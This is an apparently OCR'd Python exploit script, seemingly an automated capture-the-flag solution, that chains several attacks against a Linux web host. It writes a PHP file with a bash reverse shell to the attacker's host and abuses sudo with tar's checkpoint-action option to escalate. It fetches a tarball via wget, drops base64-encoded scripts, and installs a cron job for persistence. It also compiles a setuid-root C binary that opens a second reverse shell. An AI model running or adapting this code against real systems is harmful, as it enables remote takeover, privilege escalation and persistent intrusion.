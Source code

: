 ```py
        thread.start()                                                                                       
    else:                                               
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()

# Set the handler
def HandlerOnuma(lport,lhost):
    shell = listen(lport).wait_for_connection()
    shell.send(b"sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh")
    shell.send(b"\n")
    shell.send(b"wget %s/suid.tar.gz -O /var/tmp/suid.tar.gz" %lhost.encode())
    shell.send(b"\n")
    shell.send(b"echo IyEvYmluL3NoCgp4PSdscyAtYSAvdmFyL3RtcC8gfGdyZXAgIl5cLiIgfCB3YyAtbCcKeT0kKGV2YWwgIiR4IikKCndoaWxlIFsgJHkgLWVxIDIgXQpkbwp5PSQoZXZhbCAiJHgiKQpkb25lCgpmaWxlPSQobHMgLWEgL3Zhci90bXAvIHxncmVwICJeXC4iIHwgdGFpbCAtbjEpCmNwIC92YXIvdG1wL3N1aWQudGFyLmd6IC92YXIvdG1wLyRmaWxlCgpzbGVlcCAzNQoKY3JvbnRhYiAtcgoKL3Zhci90bXAvY2hlY2svdmFyL3d3dy9odG1sL2ZpbGUK | base64 -d > /var/tmp/script.sh")
    shell.send(b"\n")
    shell.send(b"chmod +x /var/tmp/script.sh")
    shell.send(b"\n")
    shell.send(b"echo KiAqICogKiAqIC9iaW4vc2ggL3Zhci90bXAvc2NyaXB0LnNoCg== | base64 -d > /var/tmp/repeater")
    shell.send(b"\n")
    shell.send(b"crontab /var/tmp/repeater")
    shell.send(b"\n")
    
# Root Handler
def HandlerRoot(lport):
    lport = int(lport) + 1
    root_shell = listen(lport).wait_for_connection()
    root_shell.interactive()

# Mount the php file
def createPayload(lhost,lport):
    print("[+] Let's mount the php file !! [+]")
    payload = "<?php\n"
    payload += "exec(\"/bin/bash -c 'sleep 5 && bash -i > /dev/tcp/%s/%s 0>&1'\");" %(lhost,lport)
    f = open("wp-load.php", "w")
    f.write(payload)
    f.close()
    print("[+] Done ! [+]")
    
    print("[+] Now, let's mount the suid file !!! [+]")
    lport = int(lport) + 1
    payload = "int main(void){\n"
    payload += "  setresuid(0, 0, 0);\n"
    payload += "  system(\"/bin/bash -c 'bash -i > /dev/tcp/%s/%s 0>&1'\");\n" %(lhost,lport)
    payload += "}"
    f = open("file.c", "w")
    f.write(payload)
    f.close()
    os.system("gcc -m32 -o /tmp/file file.c 2>/dev/null")
    print("[+] Done ! [+]")
    
    print("[+] Let's mount the tar.gz file !! [+]")
    folder = subprocess.run(['pwd'], stdout=subprocess.PIPE).stdout.decode('utf-8').strip()
    os.system("mkdir -p /tmp/var/www/html")
    os.system("cp /tmp/file /tmp/var/www/html/")
    os.system("chmod 6555 /tmp/var/www/html/file")
    os.system("cd /tmp && tar zcvf %s/suid.tar.gz var --owner=root --group=root > /dev/null" %folder)
```